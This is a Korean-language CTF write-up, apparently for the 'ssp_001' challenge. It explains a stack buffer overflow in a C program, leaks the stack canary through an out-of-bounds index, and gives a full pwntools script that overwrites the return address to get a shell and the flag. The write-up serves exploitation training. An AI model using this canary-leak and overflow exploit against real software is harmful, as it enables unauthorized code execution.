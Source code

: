 ```c
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
```

<img width="840" height="375" alt="image" src="https://github.com/user-attachments/assets/2569337e-518f-4831-a90d-69075399e315" />

main 함수에서 E 명령에 해당하는 부분이다.

----------------------------

**결론적으로 name 의 주소는 [ebp-0x48], box의 주소는 [ebp-0x88]임을 확인할 수 있다.**



### 익스플로잇 코드 작성

#### 카나리 값 획득
box의 idx를 0x80 ~ 0x84로 설정해주면 [ebp-0x8] ~ [ebp-0x4] 사이의 카나리 4바이트를 읽을 수 있다.

#### ret 덮기

획득한 카나리와 함께 페이로드를 작성하여 ret을 덮을 수 있다.

<img width="741" height="60" alt="image" src="https://github.com/user-attachments/assets/b43c628a-98b2-4bba-beeb-93e462f45d29" />

ret에는 p32(0x80486b9)를 덮으면 된다.

name의 주소가 [ebp-0x48] 이므로 0x40번째에 카나리를 넣어 [ebp-0x8]가 다시 들어가게 설정해야 한다. 
그리고 ret에 p32(0x80486b9)을 넣어주면 된다.

```python
from pwn import *

p = process("./ssp_001")

canary = []

for i in range(4):
    p.sendline(b"P")
    p.sendline(str(0x80 + i).encode())

    p.recvuntil(b"is : ")
    canary.append(int(p.recvline(), 16))

canary = bytes(canary)

print(canary)

payload = b"A" * 0x40 + canary + b"A" * 4 + b"B" * 4 + p32(0x80486b9)

p.sendline(b"E")
p.sendline(str(len(payload)).encode())
p.sendline(payload)

p.interactive()
```


이렇게 해서 플래그를 구할 수 있다. 

<img width="328" height="101" alt="image" src="https://github.com/user-attachments/assets/8cf47aa1-e1ab-4802-bcd9-91c215a23678" />



